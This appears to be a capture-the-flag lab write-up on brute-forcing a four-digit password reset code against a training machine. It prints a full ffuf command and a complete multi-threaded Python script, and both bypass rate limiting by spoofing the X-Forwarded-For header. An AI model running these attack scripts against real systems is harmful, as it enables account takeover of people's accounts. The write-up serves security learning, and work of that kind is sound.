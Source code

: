This project implements a brute force attack on a password reset system using a recovery code to reset the password. The goal of this project is to use various techniques to bypass restrictions such as Rate Limiting to speed up the process of finding the correct recovery code and resetting the password.

What I did:
Initial Reconnaissance:
At the initial stage, I analyzed the target system to understand how the password recovery works. I discovered a password reset page that accepts a recovery code for further actions. I also found that the server had mechanisms for rate limiting requests.

Using Burp Suite:
After discovering the password reset page, I used the Burp Suite tool to capture and analyze the traffic. During this process, I noticed that the recovery code was a 4-digit number and was passed in the requests. I also observed that the system could handle recovery attempts but had restrictions on the number of requests.

Creating Wordlists for Brute Force:
To bypass the restrictions, I created two wordlists:

One with possible recovery codes from 0000 to 9999.
The other with fake IP addresses used to bypass IP-based rate limiting.
Using FFUF Tool:
For the attack on the password reset system, I used the FFUF (Fuzz Faster U Fool) tool. I configured it to use both wordlists to brute force the recovery codes and fake IP addresses. Additionally, I limited the number of requests using the -rate flag to control the attack speed.

Command Example to Launch the Attack:

bash
Copy
Edit
ffuf -w count-9999.txt:W1 -w fake_ip_cut.txt:W2 -u "http://10.10.143.105:1337/reset_password.php" -X "POST" -d "recovery_code=W1&s=80" -b "PHPSESSID=YOUR_SESSION_ID" -H "X-Forwarded-For: W2" -H "Content-Type: application/x-www-form-urlencoded" -fr "Invalid" -mode pitchfork -fw 1 -rate 100 -o output.txt
Python Script Implementation for Brute Forcing:
I wrote a Python script to automate the brute force attack on the recovery code. The script uses multi-threading to increase performance and allows rapid testing of all possible recovery codes from 0000 to 9999.

Key Points of the Script:

The requests library is used to send POST requests to the server.
Multi-threading is utilized with the threading module to perform parallel requests.
Random IP addresses are generated via the X-Forwarded-For header to bypass rate limiting.
Python Script Example:

python
Copy
Edit
import requests
import random
import threading

url = "http://10.10.143.105:1337/reset_password.php"
stop_flag = threading.Event()
num_threads = 50

def brute_force_code(session, start, end):
    for code in range(start, end):
        code_str = f"{code:04d}"
        try:
            r = session.post(
                url,
                data={"recovery_code": code_str, "s": "180"},
                headers={
                    "X-Forwarded-For": f"127.0.{str(random.randint(0, 255))}.{str(random.randint(0, 255))}"
                },
                allow_redirects=False,
            )
            if stop_flag.is_set():
                return
            elif r.status_code == 302:
                stop_flag.set()
                print("[-] Timeout reached. Try again.")
                return
            else:
                if "Invalid or expired recovery code!" not in r.text:
                    stop_flag.set()
                    print(f"[+] Found the recovery code: {code_str}")
                    print("[+] Printing the response: ")
                    print(r.text)
                    return
        except Exception as e:
            pass

def main():
    session = requests.Session()
    print("[+] Sending the password reset request.")
    session.post(url, data={"email": "tester@hammer.thm"})
    print("[+] Starting the code brute-force.")
    code_range = 10000
    step = code_range // num_threads
    threads = []
    for i in range(num_threads):
        start = i * step
        end = start + step
        thread = threading.Thread(target=brute_force_code, args=(session, start, end))
        threads.append(thread)
        thread.start()
    for thread in threads:
        thread.join()

if __name__ == "__main__":
    main()
Results and Successfully Finding the Code:
After performing the brute force attack, I found the correct recovery code (1028), which can be used to reset the password on the site.

Password Reset:
Using the found recovery code, I successfully reset the password for the user. On the password reset page, I was presented with a form to enter a new password, which I used to complete the task.

What was Achieved:
Successfully performed a brute force attack on the password reset system.
Bypassed request limits (Rate Limiting) using fake IP addresses.
Obtained the correct recovery code for password reset.
This project is a good example of how various tools and techniques can be used to successfully attack systems that have protections like brute force prevention and rate limiting.
